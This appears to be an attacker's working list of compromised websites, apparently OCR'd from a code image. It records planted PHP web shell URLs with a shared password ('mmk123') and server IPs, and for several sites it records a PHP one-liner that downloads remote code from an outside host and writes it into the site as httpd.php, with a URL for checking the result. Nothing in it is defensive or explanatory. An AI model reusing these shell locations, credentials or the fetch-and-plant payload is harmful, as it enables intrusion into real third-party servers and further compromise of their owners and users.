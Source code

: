 http://www.zhengxin7.com/uploads/allimg/230306/1m.php |mmk123 |  61.160.192.97
代码更新：0608 ✅
http://www.zhengxin7.com/gywm/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.zhengxin7.com/data/httpd.php?d=up

https://www.zhengxin6.com/uploads/allimg/230418/1m.php |mmk123 |  163.181.78.249
https://www.zhengxin123.net/uploads/20230404/1m.php |mmk123 |  61.160.192.102
https://www.zhengxin2.com/images/swfupload/plugins/12m.php |mmk123 |  61.160.192.100
http://www.zhengxin3.com/plus/img/face/32m.php |mmk123 |  61.160.192.100

https://dpjk.qxlcyjt.com/yCEjBQrapG.php |mmk123 |  47.97.25.132 | 404
http://xl.dzpc.net/m/images/32m.php |mmk123 |  47.96.84.204 | 连接不上

https://xr.xkji.cn/yuq/js/32m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://xr.xkji.cn/photo/httpd.php
<?php file_put_contents("../kz/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xr.xkji.cn/kz/httpd.php?d=up

http://jobtool.ehongya.com/templates/default/index.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://jobtool.ehongya.com/h5/httpd.php
<?php file_put_contents("../install/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://jobtool.ehongya.com/install/httpd.php?d=up

https://www.taiguii.com/static/upload/image/20230719/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.taiguii.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.taiguii.com/config/httpd.php?d=up

https://wq.xkji.cn/web/themes/black/11m.php |mmk123 |  47.93.234.132
http://bbs.xkji.cn/uc_client/lib/xml.class.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://bbs.xkji.cn/api/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bbs.xkji.cn/data/httpd.php?d=up

https://cqll.vwxr.cn/content/images/haibao/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://cqll.vwxr.cn/api/httpd.php
<?php file_put_contents("../h5/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://cqll.vwxr.cn/h5/httpd.php?d=up
